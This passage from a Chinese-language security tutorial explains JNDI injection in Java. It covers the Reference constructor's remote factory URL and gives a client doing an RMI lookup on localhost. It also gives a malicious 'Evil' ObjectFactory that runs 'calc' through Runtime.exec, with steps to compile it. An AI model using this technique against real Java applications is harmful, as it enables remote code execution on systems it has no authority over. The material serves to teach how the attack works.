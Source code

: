 ```java
public Reference(String className, String factory, String factoryLocation) {
        this(className);
        classFactory = factory;
        classFactoryLocation = factoryLocation;
    }
```

第一个`className`用处不大，第二个参数`factory`是用来指定类名的，第三个参数就是当`CLASSPATH`找不到指定的类的时候，去搜索的远程URL路径了。

**client客户端：**

```java
package JNDI;

import javax.naming.InitialContext;

public class client {
    public static void main(String[] args) throws Exception{
        String url = "rmi://127.0.0.1:1099/hack";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(url);
        System.out.println("client running");
    }
}

```

初始化一个`JNDI`接口，然后将RMI的url传给`lookup`,获取`reference`绑定的一个远程对象。

**恶意的远程对象**

利用恶意的对象工厂：

创建对象工厂需要实现ObjectFactory接口的getObjectInstance方法，在这个方法中插入恶意代码即可

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class Evil implements ObjectFactory {

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        System.out.println("hacker");
        Runtime.getRuntime().exec("calc");
        return null;
    }
}
```

需要将`Evil.java`利用javac编译成`Evil.class`

注意：javac的java版本必须和server，client的java版本一样,而且不需要包名
